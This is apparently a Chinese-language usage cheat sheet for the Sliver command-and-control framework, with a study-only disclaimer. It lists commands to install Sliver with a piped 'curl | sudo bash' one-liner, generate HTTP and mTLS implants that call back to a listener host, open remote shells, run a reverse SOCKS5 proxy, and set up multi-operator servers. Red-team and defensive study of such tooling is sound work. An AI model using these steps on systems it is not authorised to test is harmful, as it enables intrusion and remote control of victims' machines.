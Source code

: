 # sliver

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/BishopFox/sliver

**使用文档**
- https://github.com/BishopFox/sliver/wiki

---

## 安装

**官方一条命令版**
```bash
curl https://sliver.sh/install|sudo bash

sliver
```

---

## 使用

### 生成 shell (http)

**Session Mode**
```bash
generate --http example.com --save /tmp

# 指定平台
generate --http example.com --save /tmp --os win
generate --http example.com --save /tmp --os linux
```

**Beacon Mode**
```bash
generate beacon --http example.com --save /tmp
```

**启动监听器**
```bash
http --domain example.com
```

### 生成 shell (mtls)

```bash
generate --mtls example.com --save /tmp --os win
```

**启动监听器**
```bash
mtls
jobs
```

### 进入 shell

```bash
sessions

use [session id]
```

**interactive**
```bash
# 在进入 sessions 后 (仅beacon模式可用)
interactive

close
```

**shell**
```bash
# 在进入 sessions 后
shell
```

### socks5

- https://github.com/BishopFox/sliver/wiki/Reverse-SOCKS
- https://github.com/BishopFox/sliver/tree/master/client/command/socks

**开启 socks5 代理**
```bash
# 在进入 sessions 后 (仅 session 模式可用)
socks5 start

# 默认监听在 127.0.0.1 可自行指定监听的ip、端口、配置socks5认证
socks5 start --help
```

**关闭 socks5 代理**
```bash
socks5 stop -i [ID]
```

---

## 多人运动

- https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode

**服务端**
```bash
/root/sliver-server operator --name f8x --lhost [服务端ip] --save f8x.cfg
```

**用户端**
```bash
sliver import ./f8x.cfg

sliver
# 再次启动会让你选择使用哪个 server
```
